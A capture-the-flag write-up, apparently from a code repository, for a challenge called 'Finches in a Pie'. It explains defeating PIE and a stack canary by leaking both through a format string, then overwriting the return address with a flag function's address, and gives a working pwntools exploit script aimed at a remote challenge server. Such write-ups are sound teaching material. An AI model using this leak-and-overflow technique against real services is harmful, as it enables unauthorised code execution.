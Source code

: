 # Finches in a Pie
 
Very similar to FIAS, so I won't explain the parts about a stack canary.

This time, there's PIE. 

What changes? What changes is that the address of our ever-so-important flag function changes every time, as PIE randomises the base of the binary.

What we need to do is leak a value on the stack that we can calculate the binary base from.

We're in luck. When a function is called, the address of the instruction for it to ret to is placed on the top of the stack.

This means if the value isn't later overwritten, the addresses of some instructions, including instructions of functions of the binary, will remain on the stack.

Thus we can leak an instruction of a function in the binary, and calculate the base off of this. 

I chose stack item 3, the address of the instruction in say_hi after it calls the pc_get_thunk function.
Our exploit:

Leak canary and binary base in one go with format string\
Send junk + canary + junk + flag address\
Script below:

```python
from pwn import *
import re
e = ELF("./fiap")
#p = e.process()
p = remote('95.216.233.106',22951)
p.clean()
leak = "%3$p.%11$p"
p.sendline(leak)
output = p.recvline().decode()
leaks = re.findall("Thank you, (.*)!", output)[0].split('.')
leaks = list(map(lambda x: int(x,16), leaks)) 
e.address = leaks[0] -  0x0000128f
canary = leaks[1]
log.info(f"Binary base: {hex(e.address)}")
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
